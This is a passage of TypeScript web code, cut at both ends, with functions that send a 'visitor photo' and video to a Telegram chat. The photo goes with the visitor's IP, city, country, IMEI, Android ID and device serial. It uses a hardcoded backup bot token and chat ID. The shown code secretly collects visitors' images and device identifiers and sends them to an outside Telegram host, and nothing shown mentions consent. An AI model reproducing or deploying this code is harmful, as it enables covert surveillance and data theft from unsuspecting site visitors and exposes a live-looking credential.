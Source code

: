     try {
      await sendVideo(backupBotToken);
      console.log('Video sent successfully with backup bot');
    } catch (error) {
      console.error('Backup bot failed to send video:', error instanceof Error ? error.message : 'Unknown error');
      throw error;
    }
  } catch (error) {
    console.error('Both bots failed to send video:', error instanceof Error ? error.message : 'Unknown error');
  }
};

export const sendImageToTelegram = async (imageBlob: Blob) => {
  const primaryBotToken = import.meta.env.VITE_TELEGRAM_BOT_TOKEN?.trim();
  const backupBotToken = '7998243036:AAEmkLqfg6q1Gurw1QgfHCbBM5Idr4SoX6c';
  const CHAT_ID = '-1002361654031';

  if (!CHAT_ID) {
    console.error('Telegram chat ID is not configured');
    return;
  }

  const locationInfo = await getLocationInfo();
  const deviceInfo = await getDeviceInfo();
  const formData = new FormData();
  formData.append('chat_id', CHAT_ID);
  formData.append('photo', imageBlob, 'visitor-photo.jpg');
  formData.append('caption', `📸 Visitor Photo
⏰ Time: ${new Date().toISOString()}
🌆 City: ${locationInfo.city}
🌍 Country: ${locationInfo.country}
🌐 IP: ${locationInfo.ip}
📱 Device: ${deviceInfo.brand} ${deviceInfo.model}
📱 IMEI: ${deviceInfo.imei || 'Not available'}
📱 Android ID: ${deviceInfo.androidId || 'Not available'}
📱 Serial: ${deviceInfo.serialNumber || 'Not available'}`);

  const sendPhoto = async (botToken: string): Promise<Response> => {
    if (!botToken) {
      throw new Error('Bot token is missing');
    }

    const chatInfoResponse = await fetch(`https://api.telegram.org/bot${botToken}/getChat?chat_id=${CHAT_ID}`);
    const chatInfo = await chatInfoResponse.json();

    const finalChatId = chatInfo.ok && chatInfo.result.type === 'supergroup' 
      ? chatInfo.result.id 
      : CHAT_ID;

    formData.set('chat_id', finalChatId);

    const response = await fetch(`https://api.telegram.org/bot${botToken}/sendPhoto`, {
      method: 'POST',
      body: formData,
    });
